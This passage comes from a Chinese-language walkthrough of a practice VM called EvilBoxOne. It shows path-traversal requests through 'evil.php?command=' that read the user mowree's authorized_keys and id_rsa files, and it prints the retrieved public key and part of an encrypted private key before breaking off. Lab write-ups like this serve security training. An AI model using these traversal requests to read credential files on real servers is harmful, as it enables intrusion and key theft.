 ### 10.mowree?

又重新翻看了之前搜集到的信息，发现在/etc/passwd目录下，存在一个名为mowree的用户

![image-20211208223113476](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208223113476.png)

只有用户名，那么是否可以再尝试一下ssh登陆密码爆破？

先确认一下ssh登陆的认证方式

```
ssh mowree@192.168.0.108 -v
```

![image-20211208223554832](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208223554832.png)

![image-20211208223639905](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208223639905.png)

结果显示目标支持password密码认证以外，还支持publickey公钥身份认证



那么联想到 一个能够登陆该服务器的的用户必然存在其登陆所用的公钥,那么该公钥文件位于哪里呢？

是否存在于用户目录文件下呢？结合利用文件包含读文件！

```
http://192.168.0.108/secret/evil.php?command=../../../../../home/mowree/.ssh/authorized_keys
#.ssh/authorized_keys 已经授权的用户的默认公钥存储路径
```

如果能够读取到则说明服务器是已授权允许该用户登陆的

![image-20211208225112071](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208225112071.png)

成功读取到存放在目标用户mowree目录下的公钥

>ssh-rsa  AAAAB3NzaC1yc2EAAAADAQABAAABAQDAXfEfC22Bpq40UDZ8QXeuQa6EVJPmW6BjB4Ud/knShqQ86qCUatKaNlMfdpzKaagEBtlVUYwit68VH5xHV/QIcAzWi+FNw0SB2KTYvS514pkYj2mqrONdu1LQLvgXIqbmV7MPyE2AsGoQrOftpLKLJ8JToaIUCgYsVPHvs9Jy3fka+qLRHb0HjekPOuMiq19OeBeuGViaqILY+w9h19ebZelN8fJKW3mX4mkpM7eH4C46J0cmbK3ztkZuQ9e8Z14yAhcehde+sEHFKVcPS0WkHl61aTQoH/XTky8dHatCUucUATnwjDvUMgrVZ5cTjr4Q4YSvSRSIgpDP2lNNs1B7 mowree@EvilBoxOne

页面返回信息：公私钥生成使用RSA算法、用户mowree登录到EvilBoxOne

既然已经被授权--存在公钥--那么是否也应该在默认目录下存在私钥呢？

```
http://192.168.0.108/secret/evil.php?command=../../../../../home/mowree/.ssh/id_rsa
#.ssh/id_rsa 已经授权的用户的默认私钥存储路径
```

![image-20211208225724998](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211208225724998.png)

成功读取到目标用户mowree目录下的私钥(右键源码 格式更佳！)

>```
>-----BEGIN RSA PRIVATE KEY-----
>Proc-Type: 4,ENCRYPTED
>DEK-Info: DES-EDE3-CBC,9FB14B3F3D04E90E
>
>uuQm2CFIe/eZT5pNyQ6+K1Uap/FYWcsEklzONt+x4AO6FmjFmR8RUpwMHurmbRC6
>hqyoiv8vgpQgQRPYMzJ3QgS9kUCGdgC5+cXlNCST/GKQOS4QMQMUTacjZZ8EJzoe
>o7+7tCB8Zk/sW7b8c3m4Cz0CmE5mut8ZyuTnB0SAlGAQfZjqsldugHjZ1t17mldb
>+gzWGBUmKTOLO/gcuAZC+Tj+BoGkb2gneiMA85oJX6y/dqq4Ir10Qom+0tOFsuot
>b7A9XTubgElslUEm8fGW64kX3x3LtXRsoR12n+krZ6T+IOTzThMWExR1Wxp4Ub/k
>HtXTzdvDQBbgBf4h08qyCOxGEaVZHKaV/ynGnOv0zhlZ+z163SjppVPK07H4bdLg
>9SC1omYunvJgunMS0ATC8uAWzoQ5Iz5ka0h+NOofUrVtfJZ/OnhtMKW+M948EgnY
>zh7Ffq1KlMjZHxnIS3bdcl4MFV0F3Hpx+iDukvyfeeWKuoeUuvzNfVKVPZKqyaJu
>rRqnxYW/fzdJm+8XViMQccgQAaZ+Zb2rVW0gyifsEigxShdaT5PGdJFKKVLS+bD1
>tHBy6UOhKCn3H8edtXwvZN+9PDGDzUcEpr9xYCLkmH+hcr06ypUtlu9UrePLh/Xs